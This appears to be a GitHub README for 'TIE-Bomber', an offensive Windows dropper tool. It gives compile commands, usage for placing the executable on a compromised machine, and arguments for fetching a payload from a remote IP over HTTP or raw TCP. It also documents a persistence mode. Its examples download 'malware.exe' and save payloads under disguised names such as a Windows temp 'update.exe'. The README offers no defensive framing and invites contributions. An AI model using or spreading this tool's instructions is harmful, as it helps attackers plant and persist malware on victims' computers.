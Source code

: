# TIE-Bomber Dropper 
### (Warning! Blinding GIF)

![img](TIE-Bombers.gif)

## Build
- Install ```mingw-w64```
```
sudo apt update && sudo apt install mingw-w64
```
- Compile
```
x86_64-w64-mingw32-gcc -o TIE-Bomber.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lws2_32 -lurlmon -lwininet -lshlwapi TIE-Bomber.c
```
## Usage
> Place the TIE-Bomber.exe to the compromised Windows machine

```
TIE-Bomber.exe -i <IP> -e <EXE> [options]
```

## Required arguments

* `-i <IP>`
  IP address of the server to download the payload from.

* `-e <EXE>`
  Name of the executable to download (e.g., payload.exe).

## Optional arguments

* `-t <TARGET PATH>`
  Full path where the payload should be saved.
  If omitted, name will not be changed.

* `-p <PORT>`
  Port number to connect to (default: 80).

* `-s`
  Use raw TCP sockets instead of HTTP or other protocols.

* `-P`
  Enable persistence only (no download or connect).
  Note: when using `-P`, the `-t` option (target path) is required.

* `-h`
  Print this help message.

## Examples

```
TIE-Bomber.exe -i 192.168.1.100 -e payload.exe -t C:\Users\Public\drop.exe
TIE-Bomber.exe -i 10.0.0.2 -e malware.exe -p 9001 -s
TIE-Bomber.exe -P -t C:\Windows\Temp\update.exe
```

---

# Contributions are highly welcomed!
